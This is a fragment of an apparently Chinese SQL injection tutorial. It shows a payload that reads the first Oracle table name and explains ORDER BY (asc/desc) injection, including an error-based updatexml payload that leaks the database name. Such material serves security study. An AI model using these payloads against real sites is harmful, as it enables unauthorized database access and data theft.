 获取数据库第一个表名：

select+table\_name+from+user\_tables+where+rownum=1

![image.png](assets/1701153934-11578fd2d2182796b0c88b81e635ed47.png)

# 排序注入

在很多web站点中，都提供了对前端界面显示数据的排序功能，而实际中web站点的排序功能基本都是借助SQL语言的`order by`来实现的，其中的`asc`为升序排列；`desc`为降序排列。那么其中大概的SQL语句为`SELECT * FROM users ORDER BY 1 desc/asc;`这样。而存在**排序注入**的话，其中可控的便是`desc`/`asc`这个位置。

其中可以用报错盲注：`desc,updatexml(1,concat(0x7e,(database()),0x7e),1)`

![image.png](assets/1701153934-41aa3855c5f837e9acc5503656b6ccbb.png)
